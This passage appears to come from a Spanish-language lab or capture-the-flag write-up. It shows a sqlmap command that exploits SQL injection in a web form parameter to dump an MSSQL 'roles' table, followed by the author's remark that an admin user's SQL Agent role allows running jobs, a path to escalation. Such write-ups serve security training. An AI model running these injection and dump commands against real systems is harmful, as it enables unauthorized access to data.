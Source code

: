 Tras completar la inserción de datos en la tabla "roles", procedimos a realizar un volcado de la misma para examinar su contenido. Durante este proceso de revisión, identificamos que el usuario "daedalus_admin" estaba asociado al rol "SQLAgentUserRole". De acuerdo con la documentación relevante, este rol otorga al usuario la capacidad de crear y ejecutar trabajos (jobs) dentro del sistema de gestión de bases de datos.

```bash
❯ sqlmap --batch --url http://10.13.38.20/book-trip.php --data "destination=test" -D daedalus -T roles -dump  
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Database: daedalus
Table: roles
[39 entries]
+------------------------------+-----------------------------------+
| rolename                     | username                          |
+------------------------------+-----------------------------------+
| public                       | No members                        |
| TargetServersRole            | No members                        |
| SQLAgentUserRole             | SQLAgentReaderRole                |
| SQLAgentUserRole             | dc_operator                       |
| SQLAgentUserRole             | MS_DataCollectorInternalUser      |
| SQLAgentUserRole             | daedalus_admin                    |
| SQLAgentUserRole             | WEB01\\svc_dev                    |
| SQLAgentReaderRole           | SQLAgentOperatorRole              |
| SQLAgentReaderRole           | daedalus_admin                    |
| SQLAgentReaderRole           | WEB01\\svc_dev                    |
| SQLAgentOperatorRole         | PolicyAdministratorRole           |
| SQLAgentOperatorRole         | daedalus_admin                    |
| SQLAgentOperatorRole         | WEB01\\svc_dev                    |
| DatabaseMailUserRole         | No members                        |
| db_ssisadmin                 | No members                        |
| db_ssisltduser               | dc_operator                       |
| db_ssisltduser               | dc_proxy                          |
| db_ssisoperator              | dc_operator                       |
| db_ssisoperator              | dc_proxy                          |
| db_ssisoperator              | MS_DataCollectorInternalUser      |
| dc_operator                  | dc_admin                          |
| dc_admin                     | MS_DataCollectorInternalUser      |
| dc_proxy                     | No members                        |
| PolicyAdministratorRole      | ##MS_PolicyEventProcessingLogin## |
| PolicyAdministratorRole      | ##MS_PolicyTsqlExecutionLogin##   |
| ServerGroupAdministratorRole | No members                        |
| ServerGroupReaderRole        | ServerGroupAdministratorRole      |
| UtilityCMRReader             | No members                        |
| UtilityIMRWriter             | No members                        |
| UtilityIMRReader             | UtilityIMRWriter                  |
| db_owner                     | dbo                               |
| db_accessadmin               | No members                        |
| db_securityadmin             | No members                        |
| db_ddladmin                  | No members                        |
| db_backupoperator            | No members                        |
| db_datareader                | No members                        |
| db_datawriter                | No members                        |
| db_denydatareader            | No members                        |
| db_denydatawriter            | No members                        |
+------------------------------+-----------------------------------+
```
  